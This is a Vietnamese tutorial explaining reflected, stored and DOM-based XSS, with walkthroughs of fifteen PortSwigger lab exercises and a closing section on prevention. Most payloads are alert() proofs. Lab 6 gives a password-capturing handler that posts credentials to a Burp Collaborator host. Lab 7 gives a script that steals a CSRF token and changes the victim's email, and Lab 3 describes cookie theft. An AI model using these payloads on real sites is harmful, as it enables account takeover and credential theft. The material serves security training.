## XSS là gì?

Cross-Site Scripting (XSS) là một lỗ hổng bảo mật web cho phép kẻ tấn công chèn mã độc, thường là JavaScript, vào ứng dụng. Khi người dùng truy cập nội dung chứa mã độc, mã này sẽ được thực thi trên trình duyệt của họ. Attacker có thể lợi dụng điều này để giả mạo người dùng, thực hiện các hành động trái phép hoặc truy cập dữ liệu của họ. Nếu nạn nhân có quyền cao như Admin, attacker thậm chí có thể kiểm soát nhiều chức năng và dữ liệu của ứng dụng.

XSS hoạt động bằng cách kẻ tấn công lợi dụng một website có lỗ hổng để chèn mã JavaScript độc hại vào nội dung mà website trả về cho người dùng. Khi nạn nhân truy cập và mã độc được thực thi trên trình duyệt, attacker có thể can thiệp và thực hiện các hành động trái phép dưới quyền của nạn nhân.

## XSS PoC

Để xác nhận một lỗ hổng XSS, có thể chèn một payload JavaScript khiến trình duyệt thực thi mã. Thông thường, hàm alert() được sử dụng vì đơn giản, an toàn và dễ nhận biết khi thực thi thành công. Tuy nhiên, từ Chrome 92, alert() bị hạn chế trong một số trường hợp với cross-origin iframe, nên có thể sử dụng print() thay thế để kiểm tra XSS.

## Reflected XSS là gì?

Reflected XSS xảy ra khi ứng dụng nhận dữ liệu từ HTTP request và đưa trực tiếp dữ liệu đó vào HTTP response mà không xử lý an toàn. Kẻ tấn công có thể chèn mã JavaScript độc hại vào tham số, sau đó gửi đường dẫn chứa payload cho nạn nhân. Khi nạn nhân truy cập đường dẫn, mã độc sẽ được phản hồi và thực thi ngay trên trình duyệt của nạn nhân, trong phiên đăng nhập của họ.

### Ảnh hưởng của Reflected XSS

Reflected XSS có thể cho phép attacker kiểm soát các thao tác của nạn nhân trong phạm vi quyền của họ. Attacker có thể thực hiện các hành động mà nạn nhân được phép, xem hoặc thay đổi dữ liệu mà nạn nhân có quyền truy cập, thậm chí thực hiện các tương tác với người dùng khác dưới danh nghĩa nạn nhân.

Để thực hiện tấn công, attacker thường phải dụ nạn nhân truy cập vào một đường link chứa payload độc hại, chẳng hạn thông qua website, email hoặc tin nhắn. Vì cần nạn nhân chủ động truy cập đường link nên Reflected XSS thường ít nghiêm trọng hơn Stored XSS, nơi payload có thể được lưu trực tiếp trên ứng dụng và tự động ảnh hưởng đến người dùng.

### Cách tìm và kiểm tra Reflected XSS

Có thể sử dụng Burp Suite Scanner để tự động phát hiện Reflected XSS. Nếu kiểm tra thủ công, thực hiện các bước chính:

- Kiểm tra tất cả điểm nhập dữ liệu: Kiểm tra các tham số URL, request body, đường dẫn URL và các HTTP header có thể chứa dữ liệu đầu vào.
- Nhập giá trị ngẫu nhiên: Gửi một chuỗi ký tự ngẫu nhiên khoảng 8 ký tự để xem dữ liệu có được phản hồi lại trong response hay không.
- Xác định ngữ cảnh phản hồi: Kiểm tra dữ liệu được phản hồi ở đâu, chẳng hạn trong HTML, thuộc tính HTML hay JavaScript.
- Thử payload XSS: Dựa vào ngữ cảnh, chèn một payload phù hợp và kiểm tra xem JavaScript có được thực thi hay không. Có thể sử dụng Burp Repeater để thử nghiệm.
- Thử payload khác nếu bị lọc: Nếu payload bị thay đổi hoặc chặn, cần thử cách khác phù hợp với cơ chế lọc và ngữ cảnh.
- Kiểm tra trên trình duyệt: Khi payload có vẻ hoạt động trong Burp, kiểm tra lại trên trình duyệt thực tế để xác nhận JavaScript thực sự được thực thi.

Lab 1: Reflected XSS into a JavaScript string with angle brackets HTML encoded



Thử tìm kiếm 1 giá trị nào đó thì được trả về ta đoán XSS nằm ở ô tìm kiếm



Cố gắng thoát khỏi dấu `'` để thực thi lệnh js



Ta thấy server vẫn chưa xử lý được lệnh alert nên cần nối chuỗi



Dấu `+` được parse thành dấu space, ta cần enode




Payload `'%2Balert(1)%2B'`

Lab 2: Reflected DOM XSS



Flow như sau: /?search= -> /resources/js/searchResults.js -> /search-results?search=

Input nhập vào được thực thi trong file js



Tìm cách escape dấu ngoặc kép payload là: `\"-alert(1)}//`




Lab 3: Exploiting cross-site scripting to steal cookies



Thử payload ở nội dung comment




Ta thấy payload alert được thực thi. Thử script lấy cookie



Cookie không có HttpOnly



Lấy được cookie trả về collaborator




Lab 4: Reflected XSS with AngularJS sandbox escape without strings

Yêu cầu bài lab



Ý tưởng:

- Bước 1:

```
var key = 'search';
$scope.query[key] = '...';
$scope.value = $parse(key)($scope.query);
```

key = "search" -> $parse("search") -> query.search

Tham số của search được đưa vào `$scope.query.search`

Vì bài nói cấm string ta dùng `toString()`

- Bước 2: AngularJS sandbox có những cơ chế kiểm tra expression nhằm ngăn việc truy cập/thực thi những thứ nguy hiểm. Một trong các cơ chế đó liên quan đến việc kiểm tra ký tự thông qua: `String.prototype.charAt`

Luồng: AngularJS expression -> sandbox kiểm tra -> String.prototype.charAt(...) -> quyết định expression có hợp lệ không

Payload `1&toString%28%29.constructor.prototype.charAt%3D%5B%5D.join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`

Giải thích: Payload đầu tiên toString().constructor.prototype.charAt=[].join truy cập String.prototype.charAt và ghi đè nó bằng Array.prototype.join, từ đó phá vỡ cơ chế sandbox của AngularJS. Tiếp theo, [1]|orderBy:... lợi dụng orderBy để khiến AngularJS đánh giá expression. toString().constructor.fromCharCode(...) tương đương với String.fromCharCode(...), chuyển các mã ASCII thành chuỗi x=alert(1) mà không cần sử dụng string literal. Cuối cùng, =1 làm expression được đánh giá trong ngữ cảnh của orderBy, dẫn đến thực thi alert(1).



## Stored XSS là gì?

Stored XSS xảy ra khi ứng dụng lưu dữ liệu do người dùng nhập vào rồi sau đó hiển thị dữ liệu đó trong phản hồi HTTP mà không xử lý an toàn.

VD: Website cho phép người dùng bình luận bài viết

```
POST /post/comment
postId=3&comment=This+post+was+extremely+helpful.&name=Carlos
```

Bình luận bình thường sẽ được lưu và hiển thị: `<p>This post was extremely helpful.</p>`

Kẻ tấn công có thể thay bình luận bằng mã JavaScript độc hại: `<script>/* mã độc */</script>`

Sau khi được lưu, khi người dùng khác truy cập bài viết, ứng dụng trả về: `<p><script>/* mã độc */</script></p>`

JavaScript này sẽ tự động thực thi trong trình duyệt của nạn nhân, với quyền của phiên đăng nhập của họ.

### Tác động của Stored XSS

Nếu kẻ tấn công kiểm soát được đoạn script chạy trên trình duyệt nạn nhân, họ có thể chiếm quyền kiểm soát phiên của người dùng và thực hiện các hành động mà người dùng đó có quyền thực hiện.

Điểm khác biệt quan trọng giữa Reflected XSS và Stored XSS là:

- Reflected XSS: Kẻ tấn công phải dụ nạn nhân gửi một request chứa payload.
- Stored XSS: Payload được lưu trực tiếp trong ứng dụng, sau đó chỉ cần chờ nạn nhân truy cập và payload sẽ tự động chạy.

Điều này đặc biệt nguy hiểm khi XSS chỉ ảnh hưởng đến người dùng đang đăng nhập.

- Với Reflected XSS, nếu nạn nhân không đăng nhập tại thời điểm truy cập payload → cuộc tấn công có thể thất bại.
- Với Stored XSS, payload đã được lưu sẵn trong ứng dụng → khi nạn nhân truy cập trang, họ thường đang sử dụng phiên đăng nhập và payload có thể được thực thi.

### Cách tìm và kiểm tra Stored XSS

Có thể dùng Burp Suite Scanner để tự động tìm Stored XSS. Khi kiểm tra thủ công, cần xác định:

- Entry points: nơi attacker có thể đưa dữ liệu vào ứng dụng, như:
  - URL/query parameter, request body.
  - Đường dẫn URL.
  - HTTP Headers
  - Các nguồn dữ liệu bên ngoài như email, tweet, website khác,...
- Exit points (điểm xuất): mọi HTTP response có thể hiển thị dữ liệu đã nhập cho người dùng.

Quy trình kiểm tra

1. Nhập một giá trị đặc biệt vào từng entry point.
2. Theo dõi response để xem giá trị đó có xuất hiện ở đâu.
3. Kiểm tra xem dữ liệu có được lưu lại qua các request khác nhau hay chỉ được phản hồi ngay lập tức
4. Khi xác định được entry point → exit point, kiểm tra vị trí/context mà dữ liệu xuất hiện.
5. Thử payload XSS phù hợp với context đó để xác định có Stored XSS hay không.

Lab 5: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

Yêu cầu bài lab



Với input đã nhập thì kết quả bị encode



Xác định phần bị XSS là trường website URL

Payload: `http://&#39;-alert(1)-&#39;`



Lab 6: Exploiting cross-site scripting to capture passwords

Yêu cầu bài lab



Xác nhận trường bị Stored XSS là nội dung comment. Theo yêu cầu đê bài thì ta thấy cần 2 trường username và password, trong đó password phải được tự động điền

```
<input name=username>
<input type=password name=password>
```

Thêm trường onchange vào thẻ password `if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });` sau đó trả thông tin username và password về burp collaborator



Thu thập được username và password, đăng nhập để solve bài lab



Lab 7: Exploiting XSS to bypass CSRF defenses

Yêu cầu bài lab



Kiểm tra và xác nhận stored XSS tại vị trí nội dung comment. Logic: GET /my-account -> response.text() -> Tìm csrf -> Lấy token -> POST /my-account/change-email -> csrf=<token>&email=<email>

Payload:

```
<script>
fetch('/my-account')
.then(response => response.text())
.then(body => {
    var token = body.match(/name="csrf" value="([^"]+)"/)[1];
    fetch('/my-account/change-email', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: 'csrf=' + encodeURIComponent(token) +
              '&email=phuc@gmail.com'
    });
});
</script>
```

Hoàn thành bài lab



## DOM-based XSS

### DOM-based XSS là gì?

DOM-based XSS thường xảy ra khi JavaScript lấy dữ liệu do attacker kiểm soát rồi đưa dữ liệu đó vào một sink có khả năng thực thi mã động như eval() hoặc innerHTML. Điều này có thể khiến attacker thực thi JavaScript độc hại trên trình duyệt của nạn nhân.

Để khai thác DOM XSS, cần đưa payload vào một source → dữ liệu được truyền đến sink → JavaScript độc hại được thực thi.

- Source phổ biến nhất: URL, thường được truy cập qua window.location
- Attacker có thể tạo một đường link chứa payload trong query string (?), fragment (#), hoặc đôi khi trong path.
- Khi nạn nhân truy cập link, payload đi theo luồng source → sink và được thực thi.

### Kiểm tra DOM-based XSS

#### Kiểm tra HTML Sink

- Đưa một chuỗi ngẫu nhiên (chữ + số) vào source như location.search.
- Mở DevTools → Elements, dùng Ctrl + F tìm chuỗi đó trong DOM. Không dùng View Source vì JavaScript có thể đã thay đổi HTML.
- Xác định chuỗi nằm ở context nào, rồi thử thay đổi input để xem có thể thoát khỏi context không. Ví dụ: nằm trong thuộc tính "..." thì thử thêm ".
- Lưu ý: Chrome, Firefox, Safari thường URL-encode location.search và location.hash, nên payload có thể không thực thi nếu bị encode trước.

#### Kiểm tra DOM XSS bằng DOM Invader

- DOM Invader là công cụ tích hợp trong Burp Browser, giúp tự động phát hiện và hỗ trợ khai thác DOM XSS
- Nó giảm việc phải đọc và phân tích thủ công JavaScript, đặc biệt với code phức tạp hoặc bị minify.
- Chỉ cần mở trang bằng Burp Browser và sử dụng DOM Invader để tìm các luồng source → sink có khả năng gây XSS.

### Khai thác DOM XSS với các Source và Sink khác nhau

- Website có DOM XSS khi dữ liệu có thể đi theo luồng source → sink và được thực thi.
- Khả năng khai thác phụ thuộc vào source, sink, cách website kiểm tra/xử lý dữ liệu và context của dữ liệu.
- Có nhiều loại sink khác nhau, mỗi loại cần cách khai thác phù hợp.
- Ví dụ, document.write có thể chèn thẻ <script>, nên có thể dùng: `<script>alert(document.domain)</script>`

Lưu ý: Nội dung đưa vào document.write có thể nằm trong context HTML có sẵn, nên cần xem xét nội dung xung quanh. Ví dụ: có thể phải đóng thẻ HTML đang mở trước rồi mới chèn payload JavaScript.

Lab 8:

Yêu cầu bài lab:



Đoạn JS xử lý:



Payload: `</option></select><script>alert(1)</script><select><option selected>`

Hoàn thành bài lab:



### Sources và sinks trong thư viện bên thứ ba

#### DOM XSS trong jQuery

Nếu ứng dụng sử dụng jQuery, hãy chú ý đến các sink có thể thay đổi phần tử DOM. Ví dụ, hàm attr() của jQuery có thể thay đổi thuộc tính của phần tử DOM.

Nếu dữ liệu từ nguồn do người dùng kiểm soát như URL được truyền vào attr(), attacker có thể thao túng giá trị để gây XSS.

Ví dụ:

```
$(function() {
    $('#backLink').attr("href",
        (new URLSearchParams(window.location.search)).get('returnUrl')
    );
});
```

Ở đây, location.search là source, còn attr() là sink.

Có thể khai thác bằng cách đưa một JavaScript URL độc hại vào tham số returnUrl: `?returnUrl=javascript:alert(document.domain)`

Khi JavaScript gán giá trị này vào thuộc tính href của liên kết Back, việc click vào liên kết sẽ thực thi JavaScript và gây DOM XSS.

Một sink khác trong jQuery: $(). Hàm này có thể được sử dụng để đưa các đối tượng độc hại vào DOM. Trước đây, jQuery rất phổ biến và từng xuất hiện một dạng DOM XSS kinh điển khi website sử dụng $() kết hợp với location.hash để tạo hiệu ứng animation hoặc tự động cuộn đến một phần tử trên trang.

Ví dụ:

```
$(window).on('hashchange', function() {
    var element = $(location.hash);
    element[0].scrollIntoView();
});
```

Ở đây:

- location.hash → source, vì người dùng có thể kiểm soát.
- $() → sink, có thể dẫn đến việc chèn HTML độc hại.
- hashchange → sự kiện được kích hoạt khi giá trị #fragment trong URL thay đổi.

Attacker có thể lợi dụng location.hash để đưa payload XSS vào $(). Các phiên bản jQuery mới đã vá lỗi này bằng cách ngăn không cho chèn HTML vào selector khi input bắt đầu bằng ký tự #. Tuy nhiên, vẫn có thể gặp những đoạn code dễ bị lỗi trong các ứng dụng cũ.

Kích hoạt hashchange mà không cần người dùng thao tác: Để khai thác, cần tìm cách khiến sự kiện hashchange xảy ra tự động. Một cách đơn giản là sử dụng iframe:

```
<iframe src="https://vulnerable-website.com#"
        onload="this.src+=''">
</iframe>
```

Cách hoạt động:

1. iframe tải trang đích với hash rỗng (#).
2. Khi iframe load xong, onload được thực thi.
3. Payload được nối thêm vào this.src, làm thay đổi hash.
4. Sự thay đổi này kích hoạt sự kiện hashchange.
5. Code dễ bị lỗi lấy location.hash và truyền vào $().
6. Payload được xử lý và dẫn đến DOM XSS.

#### DOM XSS trong AngularJS

ng-app → AngularJS xử lý {{...}} → có thể dẫn đến XSS nếu dữ liệu bên trong do người dùng kiểm soát.

Lab 9: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded



Yêu cầu bài lab

Payload: `{{constructor.constructor('alert(1)')()}}`

Vì: Object -(.constructor)-> constructor -(.constructor)-> Function

Do đó: constructor.constructor('alert(1)') ~ Function('alert(1)') sau đó gọi hàm thực thi ()

Hoàn thành bài lab



Lab 10: Reflected XSS with event handlers and href attributes blocked

Yêu cầu bài lab



Ta thử các thẻ thì nhận thấy các thẻ `<a>, <svg>, <text>` là không bị chặn. Lợi dụng `animate` để thay đổi thuộc tính phần tử. Nếu href="javascript:alert(1)" thì sẽ bị filter block, nên thuộc tính animate thay đổi thuộc tính href.

Payload: `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>`

Sau đó bài lab được hoàn thành:



Lab 11: Reflected XSS into HTML context with all tags blocked except custom ones

Yêu cầu bài lab:



Vì bài lab chỉ cho phép inject custom tag ta nghĩ đến thẻ <xss>. Đến Exploit Server, xác định phần bị xss là body



Payload: `<script>location ='https://0aba00ec042cf1c1801c172800ec0095.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x'</script>`

Hoàn thành bài lab:


Giải thích payload: <script>location='...' </script> dùng để chuyển victim từ Exploit Server sang URL của lab. Trong URL, ?search= chứa custom tag <xss id=x onfocus=alert(document.cookie) tabindex=1>. id=x tạo phần tử có ID x, onfocus sẽ chạy alert(document.cookie) khi phần tử được focus, còn tabindex=1 cho phép nó nhận focus. Cuối URL có #x, khiến trình duyệt tìm và focus vào phần tử id=x, từ đó kích hoạt onfocus và chạy alert(document.cookie)

Lab 12: DOM XSS in jQuery anchor href attribute sink using location.search source

Yêu cầu bài lab:



Đoạn JS xử lý dữ liệu:



Vì mong muốn thực hiện chèn payload vào phần href, tức nhận input từ returnPath -> cần chèn vào vị trí của request returnPath




Lab 13: DOM XSS in document.write sink using source location.search

Yêu cầu bài lab:



Đoạn JS xử lý



Thực hiện chèn payload để phá chuỗi vì chuỗi input được truyền thẳng vào query: `"><svg onload=alert(1)>`




Lab 14: Stored XSS into HTML context with nothing encoded

Yêu cầu bài lab:



Payload được chèn vào `<script>alert(1)</script>`




Lab 15: Reflected XSS into HTML context with nothing encoded

Yêu cầu bài lab



Payload chèn vaò ô search: `<script>alert(1)</script>`

Hoàn thành bài lab:


## Cách phòng tránh XSS

Nguyên tắc quan trọng nhất là: không đưa dữ liệu do người dùng kiểm soát trực tiếp vào HTML/JavaScript mà chưa xử lý đúng theo context.

1. Output Encoding:

Khi hiển thị dữ liệu người dùng, encode ký tự đặc biệt. VD user nhập `<script>alert(1)</script>` thì HTML render thành `&lt;script&gt;alert(1)&lt;/script&gt;`

2. Tránh các DOM XSS sink nguy hiểm

Hạn chế: document.write(userInput);, element.innerHTML = userInput;, eval(userInput);

Thay bằng các API an toàn ví dụ: element.textContent = userInput;

3. Nếu bắt buộc cho phép HTML → sanitize

Nếu ứng dụng thực sự cần cho user nhập HTML, chẳng hạn trình soạn thảo bài viết, không nên chỉ encode toàn bộ. Cần dùng HTML sanitizer đáng tin cậy, Sanitizer sẽ loại bỏ những thành phần nguy hiểm

4. Không nối chuỗi để tạo HTML

Không nên: `element.innerHTML = "<div>" + username + "</div>";`

Nên:

```
const div = document.createElement("div");
div.textContent = username;
element.appendChild(div);
```

5. Cookie nên có HttpOnly

Demo: `https://drive.google.com/file/d/1H1efboj5qyqqU17R24kVbOhG9SvUt6o-/view?usp=sharing`
